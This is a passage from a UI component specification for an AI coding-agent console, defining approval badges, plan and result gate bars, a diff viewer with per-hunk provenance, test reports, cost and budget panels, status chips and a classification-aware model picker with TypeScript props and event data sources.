**Purpose.** Session-level count of pending approvals with an indication of an open gate; activating it jumps to the oldest pending item (`G` then `A`). It is the persistent signal that complements the non-dismissable cards (WRD-11 §2.3).

**Anatomy.** Segmented pill in the header: `[hand] 2 pending` · `G1 open` · `1 needs input` (B03 §12 layout). Segments with a zero count are not rendered; the slot keeps its width while the session has an active run, so the header never shifts.

**Props.**

```ts
export interface PendingApprovalBadgeProps {
  count: number;                               // pending inline + push approvals
  oldestRequestedAt: Iso8601 | null;
  openGate: { gateId: string; gateKey: GateKey } | null;
  inputNeeded: number;                         // tasks waiting_for_input for no_admissible_model, provider or budget (questions are approvals, in count)
  pulse: boolean;                              // B06 §9.3 restart rules
  onActivate(): void;                          // focus oldest pending item (B05 §3.2)
}
```

**States.** zero (no segments; reserved empty slot, not focusable), pending (count, `color-effect-approval` fill tint, pulse 3 iterations then static ring), gate only ("G1 open" / "G2 open"), input needed (secondary segment "1 needs input" with `circle-help`), stale (disconnected: count shown with "may be outdated" in description).

**Data sources.**

| Field | Source | Transformation |
|---|---|---|
| `count` | set of `evt:approval.requested → payload.approval_id` in the session minus set of `evt:approval.resolved → payload.approval_id` | set difference (idempotent under replay and duplicates), not arithmetic |
| `oldestRequestedAt` | min `env.ts` of the pending set | |
| `openGate` | `evt:workflow.gate.presented` without `evt:workflow.gate.resolved` for the same `gate_id`, and the gate task not terminal in `evt:task.state` | |
| `inputNeeded` | tasks whose latest `evt:task.state → payload.to = 'waiting_for_input'` with reason `no_admissible_model`, `provider` or `budget` (task.state reasons, not approval kinds; ID-04, ID-05) | questions (`approval.requested` kind `question`) are counted in `count` |
| reconciliation | `rpc:approval.list {session_id, status:'pending'} → approvals[]` on reconnect | replaces the set if it differs (B05 §5.4) |

**Update behaviour.** `approval.requested`, `approval.resolved`, `workflow.gate.presented/resolved`, `task.state`.

**Accessibility.** A `button` whose accessible name is the full text ("2 approvals pending, gate G1 open. Press G then A to review."; key `badge.aria`); `aria-keyshortcuts="G A"`. Count changes are announced through the app live region (B05 §12.4), not by the badge itself.

**Tokens.** `color-effect-approval`, `color-effect-approval-bg` (B06), `radius-pill` (B06), `text-xs`, pulse per B06 §9.3.

### C-13 GateBar

**Purpose.** The sticky action bar of an open gate: G1 (Approve plan, Edit, Reject, Cancel run) and G2 (Accept result, Discard result, Iterate, and the DeliveryBar). It is the only place a gate is resolved (WRD-16 §13 screens 3 and 5). Placement: G1 is sticky at the bottom of the timeline column; G2 is sticky at the bottom of the **review panel** (B03 §13 layout), because the compact timeline beside the review is too narrow for the delivery actions. After G2 acceptance the run has ended (ID-01) and the bar stays as the post-run delivery bar.

**Anatomy.**

```
G1 review:  [milestone] Gate G1 · Plan review   [A Approve plan] [Mod+E Edit] [R Reject] [Cancel run Mod+.]   Explain (E)
G1 edit:    Editing plan · 2 steps · valid                       [Mod+Enter Save and approve] [Esc Discard edits]
G1 reject confirm:  Reject the plan and end this run?  [Enter Reject plan] [Esc Keep reviewing]   comment (optional)
G2 (review panel): [milestone] Gate G2 · Result review   [A Accept result] [R Discard result] [Iterate]  <DeliveryBar>
After accept:      [circle-check] Run succeeded · deliver                                 <DeliveryBar>
```

**Props.**

```ts
export type GatePhase =
  | 'loading' | 'open' | 'editing' | 'rejectConfirm' | 'sending' | 'confirming' | 'slow'
  | 'approved' | 'rejected' | 'expired' | 'cancelled' | 'error';
export interface GateBarProps {
  runId: string;
  gateId: string;
  gateKey: GateKey;
  placement: 'timeline' | 'reviewPanel';      // G1 timeline column, G2 review panel (B03 §13)
  phase: GatePhase;
  presentedAt: Iso8601;
  expiresAt: Iso8601;                          // presentedAt + 86,400 s
  artifacts: { artifactId: string; type: ArtifactType }[];
  draft: { dirty: boolean; valid: boolean; errorCount: number } | null;   // G1 edit
  comment: string;                             // optional reject comment (local)
  resolution: { decision: 'approve' | 'reject'; approver: string; editedArtifact: string | null;
                comment: string | null; seq: Seq; viaThisClient: boolean } | null;
  error: RpcErrorView | null;
  focusWithin: boolean;
  armed: boolean;
  delivery: DeliveryBarProps | null;           // G2 only (C-26)
  verificationPassed: boolean;                 // H4 guard; G2 only exists if true (CF-24)
  cli: { approve: string; reject: string };
  onApprove(): void;                           // -> workflow.resolveGate {run_id, gate_id, decision:'approve'}; at G2 the run ends succeeded (ID-01)
  onStartEdit(): void;                         // G1
  onSaveEdit(): void;                          // -> workflow.resolveGate {…, decision:'approve', edited_artifact}
  onDiscardEdit(): void;
  onReject(): void;                            // opens rejectConfirm
  onConfirmReject(): void;                     // -> workflow.resolveGate {…, decision:'reject', comment}; run ends cancelled(rejected) at G1 and G2 (ID-01)
  onCancelRun(): void;                         // -> session.cancel {session_id}
  onIterate(): void;                           // G2, B05 §7.6
  onExplain(): void;
}
```

**States.** Phases above. `approved` (G1: bar collapses into the gate entry header: "Plan approved by local:robert · 12:03:10"; edited variant adds "with edits". G2: "Result accepted · run succeeded" and the bar becomes the post-run delivery bar), `rejected` (run ends `cancelled(rejected)`; entry shows "Plan rejected" or "Result discarded" and the comment; delivery unavailable), `expired` (gate task terminal with `approval_expired` or `timeout`), `cancelled` (run cancelled while the gate was open).

**Data sources.**

| Field | Source | Transformation |
|---|---|---|
| `gateId`, `gateKey`, `artifacts`, `presentedAt` | `evt:workflow.gate.presented → payload.{gate_id, gate_key, artifacts[]}`, `env.ts` | artifact types via `rpc:artifact.get` or `artifact.created` |
| `resolution` | `evt:workflow.gate.resolved → payload.{decision, approver, edited_artifact, comment}` | |
| `expired`, `cancelled` | `evt:task.state` of the gate task (`env.task_id = gate_id`) with `payload.to ∈ {failed, timed_out, cancelled}` | |
| run end after resolution | `evt:workflow.end → payload.{status, reason}` following `workflow.gate.resolved` | G2 approve → `succeeded`; reject → `cancelled` + `rejected` (ID-01) |
| `verificationPassed` | latest verify task (`verify` or `verify-2`) `evt:task.state → payload.to = 'succeeded'` | G2 never renders otherwise (H4) |
| result of submit | `rpc:workflow.resolveGate → result.{gate_id, decision, artifact_id}` then confirming `evt:workflow.gate.resolved` | B05 §5 |

**Update behaviour.** `workflow.gate.presented`, `workflow.gate.resolved`, `task.state` (gate task and verify tasks), `artifact.edited`, delivery events via C-26.

**Accessibility.** `role="toolbar"` with `aria-label` `gate.<gate_key>.aria`; roving focus between buttons (arrow keys); sticky at the bottom of its container (timeline column for G1, review panel for G2) with `scroll-padding-bottom` on that scroller so focused rows are not obscured (SC 2.4.11, B06 §6.3). The reject confirmation is inline (not modal) with focus moved to "Reject plan" on open and returned to Reject on Esc.

**Tokens.** `elevation-2` (sticky), `color-surface-1`, `color-effect-approval` (gate stripe), `color-effect-deny` (reject confirm text), `text-md-strong` (B06), 32 px buttons (B06 §6.2).

**Message keys.** `gate.g1.title`, `gate.g2.title`, `gate.gate-plan.aria`, `gate.gate-final.aria`, `gate.g1.approve`, `gate.g1.edit`, `gate.reject`, `gate.reject.confirm.gate-plan`, `gate.reject.confirm.gate-final`, `gate.reject.comment`, `gate.g1.cancel`, `gate.g1.save_edit`, `gate.g1.discard_edit`, `confirm.discard_plan_edit`, `gate.editing.status`, `gate.approvedBy`, `gate.approvedWithEdits`, `gate.rejectedBy`, `gate.expired`, `gate.g2.iterate`, `gate.g2.reject` (label "Discard result"), NEW `gate.g2.accept`, `gate.g2.runSucceeded`.

### C-14 ContextPanel

**Purpose.** The right-hand panel showing the details of the selected timeline item: request, task (overview, tool calls, context sources, cost), tool call, approval, routing decision, plan, artifact (diff, test report, repo map, final result), gate, or event (WRD-11 §2.2 layout).

**Props.**

```ts
export type ContextSelection =
  | { kind: 'none' }
  | { kind: 'request'; eventId: string }
  | { kind: 'task'; taskId: string; tab: 'overview' | 'calls' | 'context' | 'cost' }
  | { kind: 'toolCall'; callId: string }
  | { kind: 'approval'; approvalId: string }
  | { kind: 'routing'; routingId: string }
  | { kind: 'plan'; artifactId: string }
  | { kind: 'artifact'; artifactId: string; file?: string; hunkId?: string }
  | { kind: 'gate'; gateId: string }
  | { kind: 'event'; seq: Seq };
export interface ContextSourceView {            // context.assembled sources (BI-4 visible)
  kind: string; ref: string; trust: 'trusted' | 'untrusted'; tokens: number;
}
export interface ContextPanelProps {
  selection: ContextSelection;
  title: string;
  width: number;                               // px, persisted locally; keyboard-resizable splitter
  content: React.ReactNode;                    // specialised view
  contextSources: { step: number; sources: ContextSourceView[]; totalTokens: number; budgetTokens: number;
                    compactions: { beforeTokens: number; afterTokens: number; turnsSummarized: number }[] } | null;
  onClose(): void;                             // Esc; returns focus to the invoking entry
  onResize(width: number): void;
  onOpenInTimeline(ref: ProvenanceRef): void;
}
```

**States.** empty (`context.empty` with the keyboard hint "J/K to move, Enter to open"), loading (skeleton for the selected kind), content, error (inline), stale selection (the selected item belongs to a run that was superseded: still shown, with a chip).

**Data sources.** Per selection kind, the component of that kind; the `context` tab uses `evt:context.assembled → payload.{step, sources[]{kind, ref, trust, tokens}, total_tokens, budget_tokens}` and `evt:context.compacted → payload.{before_tokens, after_tokens, turns_summarized}` for the task's executions: every untrusted source is marked with the untrusted treatment, which makes BI-4 visible per step.

**Update behaviour.** Follows the selected item's update behaviour; selection never changes because of incoming events (B05 §2.7, §3.1).

**Accessibility.** `complementary` landmark labelled by the panel title; the splitter is `role="separator"` with `aria-valuenow` and arrow-key resizing (no drag required, SC 2.5.7); tabs use the tabs pattern.

**Tokens.** `color-surface-1`, `color-border`, `text-lg`, `space-4`, `space-6` (≥ 1440 px), `color-untrusted`, `color-untrusted-bg` (B06).

### C-15 DiffViewer

**Purpose.** Review of the `code-diff` artifact at G2 (and read-only after a failed verification, CF-24): per-file diff, unified or side-by-side, file list grouped by task (CF-37), and a provenance link on every hunk to the task, step and tool call that produced it (WRD-16 §13, H5). §5 specifies how the per-hunk provenance is computed.

**Anatomy.**

```
+ Files (group by: [Task] File) ----+ src/routes/users.ts   +18 −2   modified          [Unified | Split]  +
| implement (4 files)               | @@ -12,6 +12,24 @@ router.get(…)      [git-commit-horizontal] implement · step 14 · fs.patch  |
|   src/routes/users.ts   +18 −2    |  12   12    import { Router } from 'express';                      |
|   src/services/users.ts +9  −0    |       13 +  router.get('/users/:id', async (req, res) => {          |
|   test/users.test.ts    +31 −0    |  …                                                                  |
|   package-lock.json (collapsed)   | @@ -40,3 +58,7 @@                    [..] repair-1 · step 3 · fs.patch (+1 contributor) |
| repair-1 (1 file)                 |  …                                                                  |
|   src/routes/users.ts   +3 −1     |                                                                     |
+-----------------------------------+---------------------------------------------------------------------+
Header: code-diff v2 (repair-1, cumulative from base a1b2c3d) · supersedes v1 · 4 files · +61 −3 · [Partial] when applicable
```

**Props.**

```ts
export interface DiffFileView {
  path: string;
  oldPath: string | null;                      // renames
  status: 'added' | 'modified' | 'deleted' | 'renamed' | 'binary';
  additions: number;
  deletions: number;
  sizeBytes: number | null;
  collapsedReason: 'lockfile' | 'large' | 'binary' | null;   // collapsed by default, expandable
  groups: TaskKey[];                           // tasks that contributed at least one hunk (CF-37 grouping)
}
export interface HunkContributorView extends ProvenanceRef { tool: ToolId | string; lines: number }
export interface HunkProvenanceView {
  hunkId: string;                              // `${file}#${index}`
  attribution: 'call' | 'task' | 'unattributed';
  primary: HunkContributorView | null;
  contributors: HunkContributorView[];
  verified: boolean;                           // call_id found in this session's events (§5.5)
}
export interface DiffLine {
  kind: 'context' | 'add' | 'del' | 'meta';
  oldNo: number | null;
  newNo: number | null;
  text: string;                                // may contain [REDACTED:<type>] spans
}
export interface DiffHunkView {
  hunkId: string;
  file: string;
  index: number;
  header: string;
  oldStart: number; oldLines: number; newStart: number; newLines: number;
  lines: DiffLine[] | null;                    // null until the file is loaded
  provenance: HunkProvenanceView | null;
}
export interface DiffViewerProps {
  artifactId: string;
  version: number;
  versions: { artifactId: string; version: number; taskKey: TaskKey; partial: boolean; createdAt: Iso8601 }[];
  taskKey: TaskKey;                            // task that produced this version
  baseCommit: string;
  headCommit: string;
  stats: { files: number; additions: number; deletions: number };
  files: DiffFileView[];
  grouping: 'task' | 'file';
  activeFile: string | null;
  hunks: Record<string, DiffHunkView[]>;       // by file path
  fileLoad: Record<string, 'idle' | 'loading' | 'ready' | 'error'>;
  layout: 'unified' | 'split';
  splitAvailable: boolean;                     // false when the diff pane is narrower than B03's threshold
  partial: boolean;
  superseded: boolean;
  readOnlyReason: 'verification_failed' | 'cancelled' | 'discarded' | null;
  focusedHunkId: string | null;
  onSelectFile(path: string): void;
  onLoadFile(path: string, side?: 'base' | 'head'): void;   // -> artifact.read {id, file, side?} (side for split view, ID-13)
  onLayoutChange(layout: 'unified' | 'split'): void;
  onGroupingChange(grouping: 'task' | 'file'): void;
  onSelectVersion(artifactId: string): void;
  onOpenProvenance(ref: ProvenanceRef): void;  // select the tool call in the timeline + ContextPanel
}
```

**States.** loading metadata (file list skeleton), file loading (hunk headers from metadata visible, lines skeleton), ready, file error (inline Retry), collapsed file (lockfile, large over 1 MiB, binary: one-line summary and "Show diff"), partial (chip "Partial: task was cancelled"; banner-less), superseded (chip "Superseded by v2" with link; G2 always opens the latest version), read-only (CF-24: header notice "Verification failed; nothing can be applied. Export patch or iterate."), provenance unattributed (chip "Origin unknown" with the reason in the tooltip), provenance unverified (chip with `triangle-alert` "Not found in audit trail", §5.5).

**Data sources.**

| Field | Source | Transformation |
|---|---|---|
| `artifactId`, `partial`, `supersedes` | `evt:artifact.created → payload.{artifact_id, type = 'code-diff', partial, supersedes, summary}` | latest version = artifact not superseded by another |
| `versions[]` | chain of `supersedes` over `artifact.created` in the run; `taskKey` from `env.task_id` | CF-26 |
| `baseCommit`, `headCommit`, `files[]`, `stats` | `rpc:artifact.get {id} → result` metadata `{files[], stats, base_commit, head_commit, summary}` | |
| hunk provenance | `rpc:artifact.get {id} → metadata.files[].hunks[]{index, header, old_start, old_lines, new_start, new_lines, provenance}` (A04 §7.3, §7.5) plus the NEW provenance fields of §5.2 | join by (`files[].path`, `hunks[].index`), checked by `header` equality |
| hunk lines | `rpc:artifact.read {id, file} → result.content` (unified diff text for that file) | parsed client-side; `range` paging for files over 256 KiB (B08) |
| `groups` per file | distinct `task_key` of hunk contributors | files touched by implement and repair appear in both groups with their hunk counts |
| `verified` | `evt:tool.exec.end → payload.{call_id, ok}` exists with `ok = true` and tool ∈ write set for the session | §5.5 |
| `readOnlyReason` | `evt:workflow.end → payload.{status, reason}`: `failed` + `verification` (CF-24), `cancelled` + `rejected` after G2 discard (ID-01), or other `cancelled` | |

**Update behaviour.** Loads on `artifact.created(code-diff)` when opened; switches to the newest version when a superseding `artifact.created` arrives only if the user has not scrolled within the current version (otherwise a chip "Newer version available" appears; B05 §4.6).

**Accessibility.** File list: `tree` (grouping by task) or `listbox` (by file) with keyboard navigation. Diff: each hunk is a `region` labelled by file + header + provenance ("Hunk 1 of 3 in src/routes/users.ts, lines 12 to 35, produced by implement step 14, fs.patch"); line rows are `row`s in a `table` with gutter columns (old number, new number, sign) so +/− is readable without colour (B06 §3.6). The provenance chip is a link button. Layout toggle is a two-option segmented control (`radiogroup`).

**Tokens.** `color-diff-add`, `color-diff-del`, `color-diff-add-strong`, `color-diff-del-strong`, `color-diff-add-word`, `color-diff-del-word` (B06), `color-surface-2` (hunk header), `mono-md`, `mono-sm`, `text-sm`.

**Message keys.** `diff.title`, `diff.version`, `diff.cumulative`, `diff.supersedes`, `diff.supersededBy`, `diff.newerAvailable`, `diff.partial`, `gate.failed_verification.body`, `diff.readonly.cancelled`, `diff.layout.unified`, `diff.layout.split`, `diff.group.task`, `diff.group.file`, `diff.collapsed.{lockfile,large,binary}`, `diff.showDiff`, `diff.provenance.chip`, `diff.provenance.more`, `diff.provenance.unattributed`, `diff.provenance.taskOnly`, `diff.provenance.unverified`, `diff.hunk.aria`.

### C-16 TestReport

**Purpose.** The verifier's structured result: per profile, pass/fail/skip counts, exit code, duration, failures with messages, and the two-sentence analysis (WRD-16 §7.2, §7.4). At G2 it shows the passing report; on the repair path it shows the failing report that triggered repair and the passing re-run (H4).

**Anatomy.**

```
[flask-conical] Verification  verify-2 (after repair)     Passed
  node-build   exit 0   ·  3.1 s
  node-test    43 passed · 0 failed · 0 skipped · exit 0 · 8.2 s        (verify: 42 passed · 1 failed)
  Failures (0)
  Analysis (model-written by local/qwen-coder-32b)  "…"
```

**Props.**

```ts
export interface TestFailureView { name: string; message: string }    // message is untrusted tool output
export interface TestReportView {
  artifactId: string;
  profile: string;                             // concrete profile, e.g. node-test (CF-29)
  exitCode: number;
  passed: number; failed: number; skipped: number;
  failures: TestFailureView[];
  durationMs: number;
  analysis: string | null;                     // model-written
  partial: boolean;
}
export interface TestReportProps {
  taskKey: 'verify' | 'verify-2';
  reports: TestReportView[];                   // one per profile run (ASM A-14)
  outcome: 'passed' | 'failed' | 'running' | 'cancelled';
  previous: { taskKey: 'verify'; passed: number; failed: number } | null;   // for verify-2
  analysisModel: { modelId: string; tier: Tier } | null;   // null when the analysis is runtime-generated (green verify, ID-09)
  loading: boolean;
  onOpenFailure(failure: TestFailureView): void;       // opens file in DiffViewer when mappable
  onOpenTask(): void;
}
```

**States.** running (profiles listed as they complete, from ToolCallRows), passed, failed (failures expanded, first failure focused on open), cancelled/partial, loading.

**Data sources.**

| Field | Source | Transformation |
|---|---|---|
| report ids | `evt:artifact.created → payload.{artifact_id, type = 'test-report'}` with `env.task_id` of the verify task | |
| report fields | `rpc:artifact.read {id} → result.content` `{profile, exit_code, passed, failed, skipped, failures[]{name, message}, duration_ms, analysis}` | |
| `outcome` | `evt:task.state → payload.to` of the verify task | `succeeded` = passed (build exit 0 and `failed = 0`, core §13.12) |
| `previous` | report of `verify` when rendering `verify-2` | |
| `analysisModel` | `evt:model.call.start → payload.{model_id, tier}` of the verify task (last); none when verify is green (ID-09: no `routing.decision` or `model.call.*` for a green verify) | caption "Generated by the runtime" instead of "model-written" when null |
| profile commands while running | ToolCallRow rows with `tool = 'proc.exec'` in the verify task | |

**Update behaviour.** `artifact.created(test-report)`, `task.state` of verify tasks, tool rows while running.

**Accessibility.** Counts are text ("43 passed, 0 failed, 0 skipped"); failures are a list with each message in a `pre` with the untrusted caption; outcome label always includes the word ("Passed"/"Failed").

**Tokens.** `color-state-succeeded`, `color-state-failed`, `color-untrusted` (messages), `mono-sm`, `mono-md`, `text-md`.

**Message keys.** `test.title`, `test.outcome.{passed,failed,running,cancelled}`, `test.counts`, `test.exitCode`, `test.duration`, `test.failures`, `test.analysis`, `test.previous`, `test.afterRepair`.

### C-17 CostPanel

**Purpose.** Per-task and total usage: tokens, quota units, estimated currency cost, duration and tool-call counts (F-AU-3), plus session budget (WRD-16 §3 step 6, §13 screen 5). Local and company-hosted models show 0.00 with the note "infrastructure cost not tracked" (core §13.13).

**Anatomy.**

```
Task        Model (tier)                      In tok   Out tok  Cached  Quota        Cost      Time    Calls
plan        local/qwen-coder-32b [T0]          8,214     1,102       0   –           0.00 *    0:41       6
implement   local/qwen-coder-32b [T0]         61,930     7,488   40,112   –           0.00 *    4:12      18
verify      local/qwen-coder-7b  [T0]          4,020       380       0   –           0.00 *    0:22       3
Total                                         74,164     8,970   40,112   –           0.00 *    5:15      27
* local; infrastructure cost not tracked.   Session budget  0.00 of 5.00 USD used · 5.00 left
Harness example row:  implement  copilot [T4]   –   –   –   3 premium requests   –   2:05   14
```

**Props.**

```ts
export interface CostRowView {
  taskId: string;
  taskKey: TaskKey;
  models: { modelId: string; providerId: string; tier: Tier; billingMode: BillingMode }[];
  tokens: { input: number; output: number; cached: number; reasoning: number };
  quota: Quota[];
  cost: Money[];                               // one per currency (§6.2); normally one USD entry
  durationMs: { active: number; wall: number };
  toolCalls: number;
  modelCalls: number;
  partial: boolean;                            // task cancelled or failed(budget)
}
export interface BudgetView {
  sessionUsd: number | null;
  sessionSpentUsd: number;
  sessionRemainingUsd: number | null;
  dailyUsd: number | null;
  dailySpentUsd: number | null;
  maxAllowedUsd: number | null;                // session.setBudget upper bound
  exhausted: boolean;                          // ST-4
}
export interface CostPanelProps {
  scope: 'run' | 'session';
  rows: CostRowView[];
  totals: Omit<CostRowView, 'taskId' | 'taskKey' | 'models' | 'partial'>;
  notes: ('infra_untracked' | 'price_unknown' | 'quota_billed' | 'estimate')[];
  budget: BudgetView;
  compact: boolean;                            // single-line variant for G2 summary and TaskCard badge
  loading: boolean;
  raiseBudget: ActionAvailability & ActionPhase;
  onRaiseBudget(sessionUsd: number): void;     // -> session.setBudget {session_id, session_usd}
}
```

**States.** loading, live (numbers update in place with tabular figures, B06 §5.1), complete, partial rows (chip), mixed billing (notes list every applicable footnote), budget warning (spent ≥ 80 % of session budget: `color-state-waiting` text), budget exhausted (ST-4: row "Session budget reached" with Raise limit input bounded by `maxAllowedUsd`), no data ("No model calls yet").

**Data sources.** §6 gives the formulas. Summary:

| Field | Source | Transformation |
|---|---|---|
| tokens | `evt:model.call.end → payload.usage.{input_tokens, output_tokens, cached_input_tokens, reasoning_tokens}` | sum grouped by `env.task_id` |
| `cost` | `evt:model.call.end → payload.usage.estimated_cost.{amount, currency, basis}` | sum of non-null amounts grouped by `env.task_id` and currency |
| `quota` | `evt:model.call.end → payload.usage.quota{kind, units}`; `evt:harness.session.end → payload.quota{kind, units}` | §6.4 de-duplication |
| `models` | `evt:model.call.start → payload.{model_id, provider_id, tier}`; `billing_mode` from `model.call.end → payload.usage.billing_mode` | distinct per task |
| `durationMs` | `evt:task.state` timestamps | §6.5 |
| `toolCalls` | count of `evt:tool.exec.start` by `env.task_id` | denied calls are not counted (they did not execute); the TaskCard shows them separately |
| `modelCalls` | count of `evt:model.call.start` by `env.task_id` | |
| `budget.sessionUsd`, `sessionSpentUsd`, `dailyUsd`, `dailySpentUsd` | `rpc:workflow.get → budget{session_usd, session_spent_usd, daily_usd, daily_spent_usd}` (ID-13); `evt:budget.changed → payload.to_usd` updates `sessionUsd` | live spent = projection value + `model.call.end` amounts with `seq` above the projection's `last_seq` |
| `budget.maxAllowedUsd` | `rpc:session.setBudget → result.max_allowed_usd` (also in the `-32004` error data) | |
| `budget.sessionRemainingUsd` | latest `evt:routing.decision → payload.budget_remaining_usd` (runtime-authoritative) | UI sum shown as "spent"; remaining from the runtime; if they disagree, the runtime value wins and note `estimate` is shown |
| `budget.exhausted` | `evt:task.state → payload.reason = 'budget'` with no later `budget.changed` | |

**Update behaviour.** `model.call.end`, `model.call.start`, `harness.session.end`, `tool.exec.start`, `task.state`, `budget.changed`, `routing.decision`.

**Accessibility.** A `table` with a caption ("Usage and cost for this run"); numeric cells right-aligned with units in the header; the asterisk footnote is also expressed in the cell's accessible name ("0.00 US dollars, infrastructure cost not tracked"). The raise-budget input is a labelled number field with min = current spend, max = `maxAllowedUsd`.

**Tokens.** `text-sm`, `mono-sm` (model ids), tabular numerals, `color-text-muted` (notes), `color-state-waiting` (80 %), `color-state-failed` (exhausted), icons `coins`, `ticket`, `wallet`.

**Message keys.** `cost.title`, `cost.column.{task,model,input,output,cached,quota,cost,time,calls}`, `cost.total`, `cost.zero_local`, `cost.unknown`, `cost.note.quotaBilled`, `cost.note.estimate`, `cost.budget.used`, `cost.budget.left`, `cost.budget.warning`, `cost.budget.exhausted`, `cost.budget.raise`, `cost.budget.raise.max`, `cost.empty`, `cost.quota`.

### C-18 StatusBadge

**Purpose.** One component for every small status chip, with six variants (core §11). Every variant carries icon + text (+ shape for tiers and classifications, B06 §1 principle 2); colour is never the only cue.

**Props.**

```ts
interface BadgeBase { size: 'sm' | 'md'; compact?: boolean; interactive?: boolean; onActivate?(): void }
export type StatusBadgeProps = BadgeBase & (
  | { variant: 'classification'; value: Classification }
  | { variant: 'sandbox'; level: SandboxLevel; backend: SandboxBackend | null; ok: boolean }
  | { variant: 'chain'; value: ChainStatusView }
  | { variant: 'tier'; value: Tier }
  | { variant: 'effect'; value: Effect; ruleId?: string }
  | { variant: 'taskState'; value: TaskState; reason?: TaskReason | null; step?: { current: number; max: number | null } }
);
```

**Variant table.**

| Variant | Values and label (B07 key) | Icon (B06 §8) | Shape and colour | Data source |
|---|---|---|---|---|
| `classification` | public / internal / confidential (`class.<v>`) | `book-open`, `building-2`, `lock` | outline / surface-2 fill / solid fill (`color-class-*`) | C-01 classification field |
| `sandbox` | "L1 (Seatbelt)", "L1 (bubblewrap)", "L2 (Docker)" (`sandbox.level`); `ok = false` adds "unavailable" | `box`, `container` | neutral chip; unavailable uses `color-state-failed` text | `evt:session.open → payload.sandbox_level`, `evt:sandbox.create → payload.backend`, `rpc:system.doctor` |
| `chain` | verified / unverified / verifying / failed (`chain.<v>`); tooltip "Verified through event #{seq} at {time}; {n} events since" | `link`, `link`, `loader-circle`, `link-2-off` | `color-state-succeeded` / muted / running / failed | `rpc:audit.verify → result.{ok, chain_ok, strict_ok, checkpoint_ok, events, violations[]}`: `ok && chain_ok && checkpoint_ok` → verified; any false → failed; call in flight → verifying; never run → unverified |
| `tier` | T0 Local, T1 Company-hosted, T2 Company cloud, T3 Vendor API, T4 Subscription (`tier.<T>`, `tier.aria`) | `laptop`, `server`, `cloud-cog`, `globe`, `plug` | T0 to T2 filled solid border; T3, T4 outline dashed (`color-tier-t*`) | model or provider tier from the owning component |
| `effect` | Allowed / Denied / Needs approval (`effect.<v>`); optional rule id in mono after the label | `shield-check`, `ban`, `hand` | `color-effect-*` with `*-bg` tint (B06) | `evt:policy.decision → payload.{effect, matched_rules[0]}` |
| `taskState` | the eleven states (`state.<v>`), `running` shows "Running · step n/max", failed shows "Failed: {reason}" | B06 §3.3 | `color-state-*` | `evt:task.state → payload.{to, reason}`, step from C-08 |

**States.** default, interactive hover/focus (when `interactive`, e.g. classification in WorkspaceRow and chain in the header open their detail), compact (short label, full label in `aria-label` and tooltip).

**Update behaviour.** Pure; re-renders with its owner.

**Accessibility.** Non-interactive badges are text (`span`) with the icon `aria-hidden`; compact badges set `aria-label` to the full label (e.g. "Tier T1, company-hosted, inside the company"). Interactive badges are buttons. The chain badge in `failed` state is also announced by Banner BN-03 (role alert).

**Tokens.** `color-class-*`, `color-tier-t0..t4`, `color-tier-inside-bg` (B06), `color-effect-*`, `color-state-*`, `text-xs`, `radius-sm`, `space-1`.

### C-19 ModelPicker

**Purpose.** Selects a model pin for the session (composer) or browses models (settings). It shows only admissible models as selectable and lists every inadmissible model greyed out with the reason, grouped by tier, so the user sees why a model cannot be used (WRD-16 §13 screen 2, BI-7). The demo switch to `confidential` greys out `anthropic/claude-sonnet` (T3) and `copilot` (T4) with `tier_not_admitted` (core §12).

**Anatomy.**

```
Model: [Auto (router decides)  v]
+-- listbox ------------------------------------------------------------------------+
| Auto (router decides)                                             prefer-internal |
| Inside the company (T0 to T2)                                                     |
|   [T0] local/qwen-coder-32b    native tools · 32k · free · prior 0.55               |
|   [T0] local/qwen-coder-7b     emulated tools · 32k · free · [ban] Below quality … |
|   [T1] company/qwen-coder-32b  native tools · 32k · free                            |
| Outside the company (T3, T4)                                                      |
|   [T3] anthropic/claude-sonnet [ban] Not admissible for confidential data (T3)     |
|   [T4] copilot (harness, pin only)  [ban] Not admissible for confidential data (T4)|
+-----------------------------------------------------------------------------------+
```

**Props.**

```ts
export interface ModelOptionView {
  modelId: string;
  providerId: string;
  tier: Tier;
  admissible: boolean;
  reasonCode: RoutingRejection | null;
  reason: string | null;                       // runtime-authored
  capabilities: { toolCalling: 'native' | 'emulated' | 'none'; structuredOutput: boolean;
                  streaming: boolean; maxContext: number };
  pricing: { inputPerMtok: number; outputPerMtok: number; currency: string } | null;
  billing: BillingMode;
  qualityPrior: number | null;                 // for taskClass
  isHarness: boolean;
  vendorTerms: VendorTerms | null;
}
export interface ModelPickerProps {
  variant: 'composer' | 'settings';
  sessionId: string | null;
  taskClass: TaskClass;                        // composer: 'implement' for change, 'summarize' for read-only
  classification: Classification | null;
  value: string | null;                        // null = Auto
  options: ModelOptionView[];
  allowUserPin: boolean;
  loading: boolean;
  error: RpcErrorView | null;
  pinInvalidated: { modelId: string; reasonCode: RoutingRejection } | null;   // pin became inadmissible
  onChange(modelId: string | null): void;      // no active run: stored locally, sent with session.request pin_model; a task paused for no_admissible_model/provider: session.setPin immediately (ID-04)
}
```

**States.** closed (shows current value with its tier chip), open, option focused, option disabled (greyed per B06 §3.2: tier chip full contrast, name and reason muted, `ban` icon, `aria-disabled`), loading (listbox skeleton), error (inline with Retry), pins not allowed (`allowUserPin = false`: control `aria-disabled` with reason `routing.picker.pinNotAllowed`), pin invalidated (after a classification change, the current pin shows a warning "Pinned model is no longer admissible; the next request will run on Auto unless you choose another" and the value resets to Auto only on user confirmation, B05 §7.4).

**Data sources.**

| Field | Source | Transformation |
|---|---|---|
| `options[]` | `rpc:provider.models {session_id, task_class} → models[]{model_id, provider_id, tier, admissible, reason_code, reason, capabilities, pricing, quality_prior}`; settings variant without a session: `rpc:provider.models {classification}` (ID-13) | group by tier; within a group: admissible first, then `quality_prior` desc, then id |
| `isHarness`, `vendorTerms` | `rpc:provider.list → harnesses[]{id, vendor_terms}` | model id equals harness id (core §2) |
| `billing` | `rpc:provider.list → providers[].auth_mode` / `harnesses[].billing` | `none` → none, gateway → gateway, api_key → api_key, harness → harness_subscription |
| `allowUserPin` | policy `routing.pins.allow_user_pin` via `rpc:policy.list` (ASM A-16) | |
| `value` | C-04 `currentPin`; after `session.setPin` the RPC result, confirmed by the next `routing.decision → payload.pin` | |
| reason text fallback | key `routing.reject.<reason_code>` when `reason` is empty | |
| `harness_not_pinned` | ignored in the picker (it concerns auto-ranking; harnesses are pin-only, core §13.7); harness options show "pin only" instead | |

**Update behaviour.** Refetch (debounced per B05 §9) on `workspace.classification`, `provider.configured`, `session.open`, and when opened after more than 30 s since the last fetch.

